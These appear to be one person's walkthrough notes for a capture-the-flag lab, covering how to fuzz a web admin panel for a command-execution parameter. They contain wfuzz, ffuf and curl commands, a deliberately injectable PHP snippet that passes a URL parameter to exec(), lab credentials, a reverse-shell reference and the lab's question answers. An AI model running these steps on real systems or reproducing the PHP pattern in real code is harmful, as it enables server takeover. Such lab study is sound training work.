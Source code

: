Now that you have access to the administrator subdomain, you can fuzz for remote code execution and attempt to identify a specific parameter that you can exploit to gain arbitrary access to the machine.  

Remote code execution, also known as arbitrary code execution, allows you to execute commands or code on a remote system. RCE can often exploit this by controlling a parameter utilized by a web server.  

One method of attempting to identify RCE is by fuzzing for a vulnerable parameter using Wfuzz. Similar to how we used Wfuzz for asset discovery. The syntax is the same as previous commands; however, this time we will replace the `FUZZ` command at the end along with a `?` so that the complete `FUZZ` parameter is `?FUZZ=ls+-la` Find an example below from the test environment.

Syntax: `wfuzz -u <http://example.com/?FUZZ=ls+-la> -w <wordlist> --hw 2`

We suggest using the Seclists "big.txt" for fuzzing RCE parameters.  

Now that we know we can control the parameter, we can attempt to gain RCE on the box. Find an example below from the test environment.  

Command used: `curl -vvv http://localhost:8080/test.php?cmd=ls+-la && echo ""`

Rather than fuzzing all the pages that we find to identify RCE, we can utilize code analysis to look at the code running on a page and infer whether or not the code may be vulnerable. Find an example below of how code can run a command and is vulnerable to an attacker controlling the parameter.  

```
<?php    
	$id = $_GET["cmd"];   
	if ($_GET["cmd"] == NULL){   
		echo "Hello " . exec("whoami") . "!";   
	} else {
	   echo "Hello " . exec($id);   
    }   
?>
```

To identify RCE, you can decide whether you want to fuzz parameters of files or you want to review the source code of a file. Your approach may also differ depending on the scenario you are in and what resources or footholds you have at your disposal.

Once you have RCE on the system, you can use a reverse shell such as netcat to gain a shell on the box. Refer to the following cheat sheet for help with reverse shells. [http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).


---

# Your job

## Log in

- Navigate to http://admin.holo.live/.

	![[Task 13 - Remote Control Empanadas-20240905142323219.webp]]
- Log in with the credentials `admin:DBManagerLogin!`.

	![[Task 13 - Remote Control Empanadas-20240905142604534.webp]]

## Fuzzing

- Use the PHPSESSID cookie that you got after logging in. You can find it using the "Web Develop Tools" from your browser.

	![[Task 13 - Remote Control Empanadas-20240905145623574.webp]]
	The value is `4bat94d2s93tepg4lkgrtjdqkn`.

- Run the following command to fuzz the parameter.

	`ffuf -b PHPSESSID=4bat94d2s93tepg4lkgrtjdqkn -u http://admin.holo.live/dashboard.php\?FUZZ\=pwd -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt  -fs 1586`

	![[Task 13 - Remote Control Empanadas-20240905150032028.webp]]
	The parameter is `cmd`.

- Navigate to http://admin.holo.live/dashboard.php/?cmd=.

	![[Task 13 - Remote Control Empanadas-20240905150748521.webp]]
	The parameter with the command has worked. The user is www-data.


---
## Answer the questions below

> What file is vulnerable to RCE on the administrator domain?
> `dashboard.php`

> What parameter is vulnerable to RCE on the administrator domain?
> `cmd`


> What user is the web server running as?
> `www-data`

**Next step:** [[Task 14 - Meterpreter session 1 closed. Reason RUH ROH]]
